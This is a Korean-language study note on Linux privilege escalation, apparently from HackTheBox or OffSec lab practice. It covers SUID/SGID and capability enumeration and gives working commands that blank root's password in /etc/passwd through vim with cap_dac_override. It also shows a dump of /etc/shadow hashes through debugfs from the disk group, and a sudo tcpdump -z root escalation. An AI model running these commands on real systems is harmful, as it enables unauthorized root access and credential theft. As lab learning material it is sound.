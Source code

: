 ### 특수 권한 탐색 (SUID, SGID)
```bash
# SUID 탐색
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
# SGID 탐색
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

### Capabilities
Linux Capabilities 는 Linux 운영 체제의 보안 기능으로, 프로세스에 특정 권한을 부여하여 그렇지 않으면 제한될 수 있는 특정 작업을 수행할 수 있도록 한다. Ubuntu에서는 `setcap` 명령으로 특정 파일에 대한 기능을 설정할 수 있다.

**Capabilities 설정 예시**

```powershell
hunji@htb[/htb]$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```
→ 바이너리가 네트워크 포트에 바인딩 가능

특히나 관리자 권한으로 작업을 수행할 수 있도록 하는 `cap_sys_admin` 과 같은 기능은 제대로 사용하지 않으면 위험하다.

| **능력**                 | **설명**                                                                      |
| ---------------------- | --------------------------------------------------------------------------- |
| `cap_sys_admin`        | 시스템 파일을 수정하거나 시스템 설정을 변경하는 등 관리자 권한으로 작업을 수행할 수 있습니다.                       |
| `cap_sys_chroot`       | 현재 프로세스의 루트 디렉토리를 변경해서 다른 방법으로는 접근할 수 없는 파일과 디렉토리에 접근할 수 있도록 해줍니다.          |
| `cap_sys_ptrace`       | 다른 프로세스에 연결하여 디버깅을 수행할 수 있으므로, 잠재적으로 중요한 정보에 접근하거나 다른 프로세스의 동작을 수정할 수 있습니다. |
| `cap_sys_nice`         | 프로세스의 우선순위를 높이거나 낮출 수 있으며, 이를 통해 원래는 제한되었을 리소스에 접근할 수 있게 됩니다.               |
| `cap_sys_time`         | 시스템 시계를 수정하여 타임스탬프를 조작하거나 다른 프로세스가 예상치 못한 방식으로 작동하도록 할 수 있습니다.              |
| `cap_sys_resource`     | 시스템 리소스 제한(예: 열려 있는 파일 기술자의 최대 수 또는 할당할 수 있는 최대 메모리 양)을 수정할 수 있습니다.         |
| `cap_sys_module`       | 커널 모듈을 로드하고 언로드할 수 있으므로 운영 체제의 동작을 수정하거나 중요한 정보에 액세스할 수 있는 가능성이 있습니다.       |
| `cap_net_bind_service` | 네트워크 포트에 바인딩하여 민감한 정보에 접근하거나 승인되지 않은 작업을 수행할 가능성이 있습니다.                     |

|**역량 가치**|**설명**|
|---|---|
|`=`|이 값은 실행 파일에 대해 지정된 기능을 설정하지만, 어떠한 권한도 부여하지 않습니다. 실행 파일에 대해 이전에 설정된 기능을 지우고 싶을 때 유용할 수 있습니다.|
|`+ep`|이 값은 지정된 기능에 대한 유효하고 허용되는 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행할 수 있지만 기능이 허용하지 않는 작업은 수행할 수 없습니다.|
|`+ei`|이 값은 지정된 기능에 대한 충분하고 상속 가능한 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행하고 실행 파일에 의해 생성된 자식 프로세스는 기능을 상속하고 동일한 작업을 수행할 수 있습니다.|
|`+p`|이 값은 지정된 기능에 대해 허용된 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행할 수 있지만 기능이 허용하지 않는 작업은 수행할 수 없습니다. 실행 파일에 기능을 부여하지만 기능을 상속하거나 자식 프로세스가 상속하는 것을 방지하려는 경우 유용할 수 있습니다.|

다음과 같은 Linux Capabilities 는 root로 권한 상승을 할 때 사용할 수 있다.

|**능력**|**설명**|
|---|---|
|`cap_setuid`|프로세스가 유효 사용자 ID를 설정할 수 있게 하며, 이를 통해 `root` 사용자를 포함한 다른 사용자의 권한을 얻을 수 있습니다 .|
|`cap_setgid`|다른 그룹(`root` 그룹 포함)의 권한을 얻는 데 사용할 수 있는 유효 그룹 ID를 설정할 수 있습니다 .|
|`cap_sys_admin`|`root`이 기능은 시스템 설정 수정, 파일 시스템 마운트 및 마운트 해제 등 사용자 에게 예약된 많은 작업을 수행하는 기능을 포함하여 광범위한 관리자 권한을 제공합니다 .|
|`cap_dac_override`|파일 읽기, 쓰기, 실행 권한 검사를 우회할 수 있습니다.|

### Enumerating Capabilities

```powershell
hunji@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \\;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

→ offsec에서는 `/usr/sbin/getcap -r / 2>/dev/null` 로 검색

### Exploitation

**Capability 확인**
```powershell
hunji@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

파일 읽기, 쓰기, 실행 권한 검사를 우회할 수 있으므로, /etc/passwd 파일을 아래와 같이 편집할 수 있다.
```powershell
hunji@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

비대화형 모드에서도 변경으로 root 의 패스워드를 없애버릴 수 있다 (x 를 없애버림).
```powershell
hunji@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\\nwq!' | /usr/bin/vim.basic -es /etc/passwd
hunji@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

### Sudo 권한 탐색
```bash
# sudo 권한 확인
sudo -l
```

### disk 그룹 exploit
```sh
dora@dora:~$ df -h  
Filesystem Size Used Avail Use% Mounted on  
/dev/mapper/ubuntu--vg-ubuntu--lv 9.8G 5.2G 4.2G 56% /  
udev 947M 0 947M 0% /dev  
tmpfs 992M 832K 991M 1% /dev/shm  
tmpfs 199M 1.2M 198M 1% /run  
tmpfs 5.0M 0 5.0M 0% /run/lock  
tmpfs 992M 0 992M 0% /sys/fs/cgroup  
/dev/sda2 1.7G 209M 1.4G 13% /boot  
/dev/loop0 62M 62M 0 100% /snap/core20/1611  
/dev/loop3 50M 50M 0 100% /snap/snapd/18596  
/dev/loop2 68M 68M 0 100% /snap/lxd/22753  
/dev/loop1 64M 64M 0 100% /snap/core20/1852  
/dev/loop4 92M 92M 0 100% /snap/lxd/24061  
tmpfs 199M 0 199M 0% /run/user/1000  
  
// reading the shadow file using debugfs for cracking the password  
dora@dora:~$ debugfs -w /dev/mapper/ubuntu--vg-ubuntu--lv  
debugfs 1.45.5 (07-Jan-2020)  
debugfs: cat /etc/shadow  
root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::  
daemon:*:19235:0:99999:7:::  
bin:*:19235:0:99999:7:::  
sys:*:19235:0:99999:7:::  
sync:*:19235:0:99999:7:::  
games:*:19235:0:99999:7:::  
man:*:19235:0:99999:7:::  
lp:*:19235:0:99999:7:::  
mail:*:19235:0:99999:7:::  
news:*:19235:0:99999:7:::  
uucp:*:19235:0:99999:7:::  
proxy:*:19235:0:99999:7:::  
www-data:*:19235:0:99999:7:::  
backup:*:19235:0:99999:7:::  
list:*:19235:0:99999:7:::  
irc:*:19235:0:99999:7:::  
gnats:*:19235:0:99999:7:::  
nobody:*:19235:0:99999:7:::  
systemd-network:*:19235:0:99999:7:::  
systemd-resolve:*:19235:0:99999:7:::  
systemd-timesync:*:19235:0:99999:7:::  
messagebus:*:19235:0:99999:7:::  
syslog:*:19235:0:99999:7:::  
_apt:*:19235:0:99999:7:::  
tss:*:19235:0:99999:7:::  
uuidd:*:19235:0:99999:7:::  
tcpdump:*:19235:0:99999:7:::  
landscape:*:19235:0:99999:7:::  
pollinate:*:19235:0:99999:7:::  
usbmux:*:19381:0:99999:7:::  
sshd:*:19381:0:99999:7:::  
systemd-coredump:!!:19381::::::  
lxd:!:19381::::::  
fwupd-refresh:*:19381:0:99999:7:::  
dora:$6$PkzB/mtNayFM5eVp$b6LU19HBQaOqbTehc6/LEk8DC2NegpqftuDDAvOK20c6yf3dFo0esC0vOoNWHqvzF0aEb3jxk39sQ/S4vGoGm/:19453:0:99999:7:::

# 이후는 root 의 .ssh/id_rsa 크랙
# 또는 root의 shadow 파일 크랙
```
참고: https://vk9-sec.com/disk-group-privilege-escalation/?source=post_page-----b14a6e535e1f---------------------------------------

### Exploit
https://gtfobins.github.io/ 를 참고해서 exploit
```bash
# sudo tcpdump 악용 예시
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```


